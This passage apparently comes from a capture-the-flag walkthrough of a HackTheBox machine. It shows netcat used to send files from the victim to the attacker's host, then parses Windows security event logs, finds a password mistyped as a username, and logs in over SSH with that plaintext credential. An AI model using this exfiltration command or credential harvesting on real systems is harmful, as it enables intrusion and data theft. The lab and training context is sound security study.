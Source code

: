 - On Host:

```bash
nc -lp 10015 > windows.msg
```

- On Victim:

```bash
pwd

/usr/local/investigation

cat W* | nc -w 3 10.10.16.9 10015
```

- `-w 3` - option sets a timeout of 3 seconds for the connection
- `-l` - option makes `nc` listen for incoming connections.

- Let's use `python` and `extract-msg` to view the content:

```bash
pip3 install extract-msg
extract_msg windows.msg
cd '2022-01-15_1830 Windows Event Logs for Analysis'
```

- There is a windows log file that we are going to investigate:

```bash
unzip evtx-logs.zip
```

- We will have to utilize `python` and `python-evtx` to properly view the content:

```bash
pip3 install python-evtx
evtx_dump.py security.evtx > security.xml
```

- There is quite a lot of content.
- After looking at various `targetusernames` you can determine that this may be a juicy finding:

```bash
cat security.xml  | grep -i targetusername | less -N
```

- After about 3k lines you will find what seems to be one of those times where a user types in their password as their username. Oops!

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203010628.png)

- For perspective on search time:

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203030042.png)

- The credentials work for user `smorton`!

```bash
ssh smorton@eforenzics.htb
Password: Def@ultf0r3nz!csPa$$
```
